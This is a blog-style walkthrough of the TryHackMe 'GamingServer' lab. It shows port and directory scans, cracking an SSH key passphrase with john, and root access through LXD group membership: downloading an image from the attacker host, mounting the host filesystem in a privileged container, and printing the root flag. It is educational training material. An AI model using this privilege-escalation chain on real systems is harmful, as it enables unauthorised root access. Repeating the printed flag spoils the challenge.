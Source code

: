 ```yaml
---
layout: post
title: Walkthrough - GamingServer
published: true
---
```


Exploit LXD user group and container. Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

[https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)

* * *

## Notes

- nmap

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- gobuster

```shell
/uploads              (Status: 301) [Size: 314] [--> http://10.10.58.155/uploads/]
/about.php            (Status: 200) [Size: 2213]                                  
/robots.txt           (Status: 200) [Size: 33]                                    
/secret               (Status: 301) [Size: 313] [--> http://10.10.58.155/secret/] 
```

- rsa private key located in secret we can feed this to john and use it to login to ssh.
- ``john gamingserver.rsa --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
- checking index.html found a username at the bottom of the page. now we can login

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``id``
- we are a member of lxd - [we can use this for privesc](https://reboare.github.io/lxd/lxd-escape.html)

```shell
john@exploitable:/tmp$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-07-29 10:54:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64-20210218_0139.ta 100%[===================================================================>]   3.11M   295KB/s    in 11s     

2022-07-29 10:54:54 (286 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jul 29, 2022 at 10:55am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Jul 29 10:57 .
     4 drwxr-xr-x   19 root     root          4096 Jul 29 10:56 ..
     4 -rw-------    1 root     root            18 Jul 29 10:57 .ash_history
~ # cd /root
~ # ls
~ # pwd
/root
~ # cd ..
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # cd /mnt/root
/mnt/root # ls
bin             dev             initrd.img      lib64           mnt             root            snap            sys             var
boot            etc             initrd.img.old  lost+found      opt             run             srv             tmp             vmlinuz
cdrom           home            lib             media           proc            sbin            swap.img        usr             vmlinuz.old
/mnt/root # cd /root
~ # ls
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

* * * 

